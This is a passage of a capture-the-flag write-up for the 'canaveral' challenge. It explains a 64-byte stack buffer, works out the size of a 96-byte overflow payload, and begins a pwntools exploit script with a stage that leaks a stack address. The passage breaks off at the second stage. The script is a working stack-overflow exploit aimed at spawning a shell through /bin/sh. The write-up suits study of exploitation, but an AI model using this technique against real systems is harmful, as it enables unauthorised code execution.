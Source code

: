 ```asm
push rbp           ; Saves RBP (8 bytes)
mov rbp, rsp       ; Sets up frame
sub rsp, 0x40      ; Allocates 64 bytes for buffer

lea rax, [rbp-0x40]  ; Buffer is at RBP-0x40
```

This is the **standard x86-64 stack frame**:
- Buffer: [rbp-0x40] to [rbp-0x1] (64 bytes)
- Saved RBP: [rbp] (8 bytes)
- Return address: [rbp+8] (8 bytes)

### Q8: Why is the payload 96 bytes?

**A:** Let's count:

```python
b"A" * 0x40           # 64 bytes (buffer)
p64(buf_addr + 0x70)  # 8 bytes (saved RBP)
p64(ret_gadget)       # 8 bytes (return address)
p64(system_mid)       # 8 bytes (jump target)
p64(binsh_addr)       # 8 bytes (our data)

Total: 64 + 8 + 8 + 8 + 8 = 96 bytes
```

---

## Complete Exploit Code

```python
from pwn import *

# Setup
elf = ELF("./canaveral")
context.binary = elf
context(arch="amd64", os="linux", log_level="info")

# Connect to the challenge
p = remote("chal.sunshinectf.games", 25603)
# p = process(["./canaveral"])  # For local testing

# ==================== ADDRESSES ====================
vuln_addr = 0x401231        # vuln() function
ret_gadget = 0x40101a       # ret instruction (stack alignment)
system_mid = 0x401218       # Middle of win() (skips checks)
binsh_addr = 0x402008       # Address of "/bin/sh" string

# ==================== STAGE 1 ====================
print("[*] Stage 1: Leaking stack address...")

# Build Stage 1 payload
payload1 = b"A" * 0x40           # Fill buffer (64 bytes)
payload1 += p64(0)               # Overwrite saved RBP (8 bytes)
payload1 += p64(vuln_addr)       # Return to vuln() (8 bytes)

# Send Stage 1
p.sendlineafter(b"sequence: ", payload1)

# Capture leaked address
p.recvuntil(b"prize: ")
buf_addr = int(p.recvline().strip(), 16)
print(f"[+] Leaked buffer address: {hex(buf_addr)}")

# ==================== STAGE 2 ====================
```